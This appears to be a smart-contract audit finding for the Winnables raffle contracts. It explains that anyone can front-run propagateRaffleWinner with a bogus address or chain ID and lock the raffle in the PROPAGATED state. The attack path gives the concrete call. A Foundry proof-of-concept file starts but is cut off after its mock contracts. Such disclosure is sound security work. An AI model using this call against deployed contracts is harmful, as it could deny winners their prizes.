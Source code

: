 https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/e8b0603f6a155c7505dacc77194ae6789d0dbe7a/public-contracts/contracts/BaseCCIPSender.sol#L15C5-L24C57

```solidity
 function _sendCCIPMessage(
        address ccipDestAddress,
        uint64 ccipDestChainSelector,
        bytes memory data
    ) internal returns(bytes32 messageId) {
        if (ccipDestAddress == address(0) || ccipDestChainSelector == uint64(0)) {
            revert MissingCCIPParams();
        }

        // Send CCIP message to the desitnation contract

```


### Internal pre-conditions

A raffle ends

### External pre-conditions

The `WinnablesTicketsManager` contract gets updated and is waiting for `propagateRaffleWinner` to be called. 

### Attack Path

bad actor calls the function first with incorrect address or chain ID. 
winnablesTicketManager.propagateRaffleWinner(address(9999999), 1, 1);


### Impact

This vulnerability allows attackers or even mistakes to prematurely transition the status of a raffle to PROPAGATED, potentially making it impossible for the correct winner's details to be relayed to the `PrizeManager`.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../contracts/WinnablesTicketManager.sol";
import "../contracts/WinnablesTicket.sol";
import "../contracts/interfaces/IWinnables.sol"; 


contract MockIERC20 is IERC20 {
    function totalSupply() external view returns (uint256) {}
    function balanceOf(address account) external view returns (uint256) {}
    function transfer(address recipient, uint256 amount) external returns (bool) {}
    function allowance(address owner, address spender) external view returns (uint256) {}
    function approve(address spender, uint256 amount) external returns (bool) {}
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool) {}
}


contract MockVRFConsumerBaseV2 is VRFConsumerBaseV2 {
    constructor(address coordinator) VRFConsumerBaseV2(coordinator) {}

```